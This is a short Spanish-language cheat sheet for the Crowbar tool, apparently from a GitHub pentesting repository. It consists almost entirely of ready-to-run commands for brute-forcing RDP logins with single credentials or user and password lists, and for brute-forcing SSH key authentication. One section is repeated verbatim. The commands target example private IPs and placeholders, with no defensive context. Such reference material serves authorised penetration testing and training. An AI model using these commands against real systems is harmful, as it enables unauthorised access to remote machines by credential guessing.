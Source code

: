 # Crowbar Cheat Sheet

#### Ataque de fuerza bruta a RDP usando un usuario y un password
```
crowbar -b rdp -s <IP>/<CIDR> -u <USERNAME> -c <PASSWORD>
crowbar -b rdp -s 192.168.2.182/32 -u admin -c Password123
```

#### Ataque de fuerza bruta a RDP usando un diccionario de usuarios y passwords
```
crowbar -b rdp -s <IP>/<CIDR> -U <USER-LIST> -C <PASSWORD-LIST>
```

#### Ataque de fuerza bruta a RDP usando un diccionario de usuarios y passwords, guardando el resultado en un archivo
```
crowbar -b rdp -s <IP>/<CIDR> -U <USER-LIST> -C <PASSWORD-LIST> -o <OUTPUT>
```

#### Ataque de fuerza bruta a RDP usando un diccionario de usuarios y passwords
```
crowbar -b rdp -s <IP>/<CIDR> -U <USER-LIST> -C <PASSWORD-LIST>
```

#### Ataque de fuerza bruta a llave privada SSH
```
crowbar -b sshkey -s <IP>/<CIDR> -u <USER> -k /root/.ssh/id_rsa
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)